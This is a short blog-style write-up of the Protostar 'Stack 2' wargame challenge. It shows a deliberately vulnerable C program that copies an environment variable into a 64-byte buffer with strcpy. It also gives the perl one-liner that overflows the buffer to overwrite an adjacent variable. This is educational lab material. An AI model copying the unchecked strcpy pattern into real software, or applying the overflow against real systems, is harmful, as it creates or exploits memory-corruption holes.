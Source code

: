 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 2"
date: 2011-12-14T05:08:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


This challenge is pretty much the same as the previous challenge, except that the buffer comes from an environmental variable:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```

This problem can simply be solved by running these commands:

```
user@protostar:/opt/protostar/bin$ GREENIE=`perl -e 'print "A"x64 . "\x0a\x0d\x0a\x0d"'`
user@protostar:/opt/protostar/bin$ export GREENIE
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

This will put the 64 "A"s and 0x0d0a0d0a (in little endian) into an environmental variable.  Then when the vulnerable C app reads it, overflows the buffer into the "modified" variable, just like the others.
